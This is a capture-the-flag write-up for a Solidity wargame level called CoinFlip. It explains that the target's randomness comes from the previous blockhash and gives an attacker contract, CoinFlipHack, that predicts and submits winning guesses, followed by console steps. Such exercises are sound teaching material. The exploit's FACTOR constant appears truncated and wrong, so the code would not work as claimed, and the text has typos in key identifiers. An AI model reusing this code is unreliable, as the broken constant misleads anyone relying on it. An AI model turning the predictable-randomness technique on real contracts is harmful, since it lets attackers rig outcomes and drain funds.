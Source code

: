 # Level 3: CoinFlip

# Objective:

You must consecutively win the coin flip 10 times in a row.

# Vulnerability:

It uses blockhash of the previous block and divides it to a huge constant to decide the coutcome.
Since blockhash and factor are known the outcome can be predicted.

# Explanation:

We can do the same calculations in another contract. Predict whether the result will be true or false then submit the correct guess to the flip() function.
We repeat this 10 times in a row to win.

# Solution:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface CoinFlip {
function flip(bool \_guess) external returns (bool);
}
contract CoinFlipHack {
address public target;
uint256 FACTOR = 1157920892373161954235709850086879078532699846656405640394575840079131296399;
    constructor(address _target) {
        target = _target;
    }
    function predictAndFlip() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;
        CoinFlip(target).flip(guess);
    }
}
```
put the contracts address(await contract.adrress) in \_target then call predictAndFLip() 10 times

you can check using await contract.consecutiveWins()
if it returns 10 submit the level.

# Key Takeaways:

Never use blockhash for randomness as attackers might predict or manipulate it.
